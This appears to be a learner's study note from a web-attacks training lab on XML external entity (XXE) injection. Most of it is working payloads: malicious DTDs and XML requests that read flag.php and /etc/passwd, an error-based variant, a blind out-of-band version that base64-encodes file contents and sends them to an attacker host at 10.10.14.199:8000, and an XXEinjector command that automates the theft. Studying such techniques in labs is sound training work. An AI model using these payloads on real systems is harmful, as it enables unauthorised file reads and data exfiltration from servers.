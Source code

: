 # web_attacks

Created: March 31, 2025 11:52 PM
Tags: xxe

ALWAYS APPEND `-n` / `-w 0` WHEN DOING CRYPTO OPERATIONS USING BASH!

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image.png)

XXE Filter mitigation: Use PUBLIC instead of SYSTEM

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%201.png)

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%202.png)

XXE: how to read non-php files without filters including special characters? Use CDATA paired with external DTD

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%203.png)

Code challenge:

Self hosted malicious DTD:

```bash
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```

Payload:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % dtd SYSTEM
  "http://10.10.14.199:8000/xxe.dtd">
  %dtd;
  %all;
]>
<root>
<name>johnn</name>
<tel>+231254545</tel>
<email>&fileContents;</email>
<message>a?</message>
</root>
```

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%204.png)

Error-based XXE:

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%205.png)

Self-hosted malicious DTD:

```bash
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Payload:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.199:8000/xxerror.dtd">
  %remote;
  %error;
]>
<root>
<name>johnn</name>
<tel>+231254545</tel>
<email></email>
<message>a?</message>
</root>
```

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%206.png)

Blind XXE:

When the data is not displayed in any way on a screen itself.

Self-hosted malicious XXE:

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.199:8000/?content=%file;'>">
%oob;
```

Payload:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.199:8000/xxeoob.dtd">
  %remote;
]>
<root>&content;</root>
```

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%207.png)

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%208.png)

Autoexploit for Blind XXE:

```bash
ruby XXEinjector.rb --host=10.10.14.199 --httpport=8000 --file=req --path=/etc/passwd --oob=http --phpfilter
```

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%209.png)

![image.png](web_attacks%201c7021737a89800c98eedbcd483bd5d5/image%2010.png)

---

[Web_Attacks_Module_Cheat_Sheet.pdf](web_attacks%201c7021737a89800c98eedbcd483bd5d5/Web_Attacks_Module_Cheat_Sheet.pdf)